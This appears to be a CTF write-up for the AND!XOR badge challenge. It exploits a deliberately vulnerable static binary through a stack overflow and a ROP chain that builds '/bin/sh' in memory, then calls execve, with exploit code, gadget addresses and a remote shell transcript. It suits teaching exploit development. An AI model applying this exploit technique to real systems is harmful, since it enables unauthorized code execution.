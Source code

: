 # AND!XOR Badge Challenge

This challenge was written by [@aagallag](https://twitter.com/aagallag) and was shared with some PDX local hacker groups by [@AndnPDXor](https://twitter.com/AndnPDXor). The first person to hack it was rewarded with a limited edition DEFCON 28: SAFE MODE AND!XOR badge! #mattdamon

## The Binary

The binary ([bin](EasyRop), [src](EasyRop.c)), is pretty simple, and has an obvious buffer overflow via `gets()` and `strcpy()`:

```c
void function(char *str)
{
   char buffer[16];
   strcpy(buffer,str);
}

void main()
{
  char large_string[256];
  gets(large_string);

  function(large_string);
  printf("Nope. String is %s\n", large_string);
}
```

As the name implies, NX is enabled so we need to build a ROP chain to exploit this:

```
$ checksec EasyROP
[*] '/home/zander/ctf/badge/EasyROP'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## The Exploit

The easiest way to exploit this is to call `system("/bin/sh")`. Unfortunately, the program is static and doesn't call `system()`, so the function isn't available:

```
$ objdump -x EasyROP | grep system
080ce3cc l     O .rodata        00000010 system_dirs_len
080ce3e0 l     O .rodata        0000003e system_dirs
$ file EasyROP
EasyROP: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=0354e0c06c00b1cf1a64ac323ad924090451136d, not stripped
```

However, there is a syscall gadget available so we can build a ROP chain to do `execve("/bin/sh", 0, 0)`:

```
$ ROPgadget --binary EasyROP | grep ": int 0x80"      
0x0806d685 : int 0x80
```

The string `"/bin/sh"` isn't present in the binary, so it needs to be built somehow:

```
$ strings EasyROP | grep "/bin/sh"
$
```

This can be done using `strcpy()` and assemble it using other strings in the binary. A good target for building the string is the BSS section, because it has read/write permissions. I wrote this to the middle of the section that was just null bytes, at `0x80eb001`.

I used the `search` command in pwndbg to find `/`, `bin` and `sh` in the binary:

```
pwndbg> search "/"
[snip]
EasyROP         0x80d9a6c das     /* '/' */
pwndbg> search "bin"
EasyROP         0x80bc340 bound  ebp, qword ptr [ecx + 0x6e] /* 'binary' */
pwndbg> search "sh"
EasyROP         0x80bf17d jae    0x80bf1e7 /* 'sh' */
```

Below is a snippet from my exploit that builds the string. The `pop2_ret` variable is a pointer to a pop pop ret gadget that will allow us to chain ROP gadgets together (for a primer on ROP, please review [these slides](https://cand-f18.unexploitable.systems/l/lab05/W5L1.pdf) from Dr. Yeongjin Jang's Cyber Attacks & Defenses class at Oregon State)

```py
# strcpy
# 0x80d9a6c = /
# 0x80bc340 = bin
# 0x80bf17d = sh
s_slash = p32(0x80d9a6c)
s_bin = p32(0x80bc340)
s_sh = p32(0x80bf17d)

# write str to bss (no null byte)
s_binsh = 0x80eb001

strcpy = p32(elf.symbols['__strcpy_sse2'])

payload += strcpy
payload += pop2_ret
payload += p32(s_binsh)
payload += s_slash

payload += strcpy
payload += pop2_ret
payload += p32(s_binsh+1)
payload += s_bin

payload += strcpy
payload += pop2_ret
payload += p32(s_binsh+4)
payload += s_slash

payload += strcpy
payload += pop2_ret
payload += p32(s_binsh+5)
payload += s_sh
```

Here's what the above chain looks like in C

```c
// s_binsh = ""

strcpy(s_binsh, s_slash);

// s_binsh = "/"

strcpy(s_binsh+1, s_bin);

// s_binsh = "/binary"

strcpy(s_binsh+4, s_slash);

// s_binsh = "/bin/"

strcpy(s_binsh+5, s_sh);

// s_binsh = "/bin/sh"
```

Now that we have `"/bin/sh"`, we can prepare our syscall. To make the `execve("/bin/sh", 0, 0)` syscall, we need to set the following registers:

* `eax`: Syscall number - `0xb`
* `ebx`: Program string - `"/bin/sh"`
* `ecx`: argv array - `NULL`
* `edx`: envp array - `NULL`

In order to zero out ecx and edx, I used `xor` gadgets to avoid null bytes (although this ended up not being an issue). These gadgets worked well:

```
0x080497e3 : xor ecx, ecx ; pop ebx ; mov eax, ecx ; pop esi ; pop edi ; pop ebp ; ret
0x08072180 : xor edx, edx ; mov eax, edx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
```

The `xor ecx, ecx` gadget also allowed me to control ebx, so that took care of the program string. I also needed gadgets to control `eax` and to trigger the syscall. I already showed the syscall gadget earlier, and the `eax` gadget just does `pop eax ; ret`.

With that, I was able to build the full syscall:

```py
# execve("/bin/sh", 0, 0)
# eax = 0xb
# ebx = "/bin/sh"
# ecx = 0
# edx = 0

payload += xor_edx_stuff
payload += 4 * nop

payload += xor_ecx_stuff
payload += p32(s_binsh) # ebx
payload += 3 * b"bbbb"

payload += xor_eax
payload += pop_eax
payload += p32(0xb)

payload += syscall
```

And with that, a shell is born!

```
 ./exploit.py remote
[+] Opening connection to xxxxxxx on port 1337: Done
[*] '/home/zander/ctf/badge/EasyROP'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loaded cached gadgets for './EasyROP'
[*] wuddup
[*] Switching to interactive mode
$ id
uid=1000(easyrop) gid=1000(easyrop) groups=1000(easyrop)
```
